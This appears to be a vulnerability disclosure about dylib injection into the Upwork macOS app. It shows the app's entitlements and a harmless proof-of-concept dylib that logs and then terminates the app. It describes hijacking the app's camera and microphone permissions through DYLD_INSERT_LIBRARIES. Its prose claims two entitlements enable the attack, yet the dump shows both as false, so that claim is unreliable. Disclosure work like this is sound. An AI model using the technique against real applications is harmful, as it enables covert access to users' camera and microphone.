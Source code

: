 ```
Info.plist entries=33
TeamIdentifier=ZS7EHQ26T2
Runtime Version=12.3.0
Sealed Resources version=2 rules=13 files=14
Internal requirements count=1 size=180
[Dict]
	[Key] com.apple.security.device.camera
	[Value]
		[Bool] true
	[Key] com.apple.security.network.client
	[Value]
		[Bool] true
	[Key] com.apple.security.device.microphone
	[Value]
		[Bool] true
	[Key] com.apple.security.device.audio-input
	[Value]
		[Bool] true
	[Key] com.apple.security.automation.apple-events
	[Value]
		[Bool] true
	[Key] com.apple.security.device.audio-video-bridging
	[Value]
		[Bool] true
	[Key] com.apple.security.cs.disable-library-validation
	[Value]
		[Bool] false
	[Key] com.apple.security.cs.allow-dyld-environment-variables
	[Value]
		[Bool] false
	[Key] com.apple.security.cs.allow-unsigned-executable-memory
	[Value]
		[Bool] true
```

This could be abused by an attacker through preloading the application with an unsigned malicious dylib so that arbritrary code is running within the `/Applications/Upwork.app/Contents/MacOS/Upwork` Mach-O, thus inheriting its entitlements registered in the TCC database. 


The `com.apple.security.cs.allow-dyld-environment-variables` and `com.apple.security.cs.disable-library-validation` entitlements allow for an unsigned dylib to be loaded via the `DYLD_INSERT_LIBRARIES` environment variable. As an example, if the `/Applications/Upwork.app/Contents/MacOS/Upwork` Mach-O was preloaded with the `DYLD_INSERT_LIBRARIES` environment variable then dyld would load said unsigned malicious dylib.

This example can be demonstrated with the following following `dylib`
```objc
/* gcc -dynamiclib -framework Cocoa -framework Foundation runtime_tcc_bypass_demo.m -o runtime_tcc_bypass_demo.dylib */

#include <syslog.h>
#import <Foundation/Foundation.h>
#import <Cocoa/Cocoa.h>

__attribute__((constructor))
static void myconstructor(int argc, const char **argv) {
    NSLog(@"[INFO] dylib constructor called from %s\n", argv[0]);
    syslog(LOG_ERR, "[INFO] dylib constructor called from %s\n", argv[0]);

    NSLog(@"[INFO] Exiting !");
    [[NSApplication sharedApplication] terminate:nil];   
}
```
